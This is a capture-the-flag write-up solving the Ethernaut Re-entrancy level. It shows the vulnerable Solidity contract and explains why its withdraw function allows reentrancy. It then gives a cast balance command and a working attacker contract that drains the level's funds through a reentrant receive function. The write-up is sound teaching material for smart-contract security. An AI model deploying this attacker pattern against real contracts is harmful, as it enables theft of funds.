 ```yaml
---
title: Ethernaut - Re-entrancy - Solution
date: '2024-05-08'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Re-entrancy CTF
---
```


# Ethernaut - Re-entrancy - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## Solution

To complete this level, we need to drain all funds from the contract.
This can be achieved by exploiting the fact that the contract's `withdraw()` function does not follow the checks-effects-interactions pattern and is, therefore, vulnerable to the well-known [reentrancy attack](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#reentrancy).

First, we can check the balance of our victim via:

```bash
cast balance <your level instance address> --rpc-url $SEP_RPC_URL --ether
# Result: 0.001000000000000000
```

To steal 1 Finney from the contract, we can use the following attacker:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract ReentranceAttacker {
    IReentrance public immutable VICTIM;
    bool public reentered;

    constructor(address victim) {
        VICTIM = IReentrance(victim);
    }

    function attack() external payable {
        VICTIM.donate{value: 1e15}(address(this));
        VICTIM.withdraw(1e15); // 1e15 = 1 Finney
    }

    receive() external payable {
        if (!reentered) {
            VICTIM.withdraw(1e15);
            reentered = true;
        }
    }
}
```

Note that we must send a value of 1 Finney when calling `attack()`.
